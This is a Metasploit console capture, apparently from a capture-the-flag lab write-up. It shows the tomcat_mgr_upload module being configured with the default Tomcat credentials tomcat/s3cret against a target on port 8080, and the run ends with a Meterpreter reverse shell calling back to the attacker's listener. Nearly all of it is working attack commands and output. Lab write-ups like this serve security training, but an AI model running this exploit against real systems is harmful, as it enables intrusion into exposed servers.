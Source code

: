 ```bash {hl_lines=[1, 29, 31, 33, 35, 37, 39, 50]}
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> show options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password for the specified username
   HttpUsername                   no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         80               yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host

Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.132.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Java Universal

[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set HttpPassword s3cret
HttpPassword => s3cret
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set HttpUsername tomcat
HttpUsername => tomcat
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set rhost 10.129.159.199
rhost => 10.129.159.199
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set rport 8080
rport => 8080
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set lhost 10.10.14.33
lhost => 10.10.14.33
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> exploit

[*] Started reverse TCP handler on 10.10.14.33:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying rjeUAAh...
[*] Executing rjeUAAh...
[*] Sending stage (58829 bytes) to 10.129.159.199
[*] Undeploying rjeUAAh ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.10.14.33:4444 -> 10.129.159.199:49192 ) at 2022-06-09 07:00:51 +0530

(Meterpreter 1)(C:\apache-tomcat-7.0.88) >
```
